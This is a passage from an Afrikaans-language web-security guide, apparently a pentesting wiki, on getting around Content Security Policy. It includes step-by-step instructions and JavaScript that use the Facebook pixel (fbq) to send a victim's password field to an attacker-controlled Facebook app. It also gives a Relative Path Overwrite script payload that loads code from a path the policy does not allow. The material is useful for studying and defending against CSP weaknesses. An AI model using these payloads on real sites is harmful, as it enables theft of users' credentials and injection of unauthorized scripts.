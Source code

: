 As jy enige van die toegelate domeine in die CSP van jou teiken vind, is daar 'n kans dat jy die CSP mag kan omseil deur op die derdeparty diens te registreer en, of data na daardie diens te ekfiltreer of kode uit te voer.

Byvoorbeeld, as jy die volgende CSP vind:
```
Content-Security-Policy​: default-src 'self’ www.facebook.com;​
```
of
```
Content-Security-Policy​: connect-src www.facebook.com;​
```
U moet in staat wees om data te exfiltreer, soortgelyk aan hoe dit altyd gedoen is met [Google Analytics](https://www.humansecurity.com/tech-engineering-blog/exfiltrating-users-private-data-using-google-analytics-to-bypass-csp)/[Google Tag Manager](https://blog.deteact.com/csp-bypass/). In hierdie geval volg u hierdie algemene stappe:

1. Skep 'n Facebook Developer-rekening hier.
2. Skep 'n nuwe "Facebook Login" app en kies "Webwerf".
3. Gaan na "Instellings -> Basies" en kry u "App ID".
4. In die teikenwebwerf waarvan u data wil exfiltreer, kan u data exfiltreer deur direk die Facebook SDK gadget "fbq" te gebruik deur 'n "customEvent" en die datalaai.
5. Gaan na u App "Event Manager" en kies die toepassing wat u geskep het (let op dat die gebeurtenisbestuurder in 'n URL soortgelyk aan hierdie een gevind kan word: https://www.facebook.com/events\_manager2/list/pixel/\[app-id]/test\_events).
6. Kies die oortjie "Test Events" om die gebeurtenisse te sien wat deur "u" webwerf gestuur word.

Dan, aan die kant van die slagoffer, voer u die volgende kode uit om die Facebook-volgpixel te initialiseer om na die aanvaller se Facebook-ontwikkelaarrekening app-id te wys en 'n aangepaste gebeurtenis soos volg uit te reik:
```JavaScript
fbq('init', '1279785999289471');​ // this number should be the App ID of the attacker's Meta/Facebook account
fbq('trackCustom', 'My-Custom-Event',{​
data: "Leaked user password: '"+document.getElementById('user-password').innerText+"'"​
});
```
Wat die ander sewe derdeparty-domeine betref wat in die vorige tabel gespesifiseer is, is daar baie ander maniere waarop jy hulle kan misbruik. Verwys na die vorige [blog post](https://sensepost.com/blog/2023/dress-codethe-talk/#bypasses) vir bykomende verduidelikings oor ander derdeparty-misbruik.

### Bypass via RPO (Relative Path Overwrite) <a href="#bypass-via-rpo-relative-path-overwrite" id="bypass-via-rpo-relative-path-overwrite"></a>

Benewens die bogenoemde herleiding om padbeperkings te omseil, is daar 'n ander tegniek genaamd Relative Path Overwrite (RPO) wat op sommige bedieners gebruik kan word.

Byvoorbeeld, as CSP die pad `https://example.com/scripts/react/` toelaat, kan dit soos volg omgegaan word:
```html
<script src="https://example.com/scripts/react/..%2fangular%2fangular.js"></script>
```
Die blaaiers sal uiteindelik `https://example.com/scripts/angular/angular.js` laai.
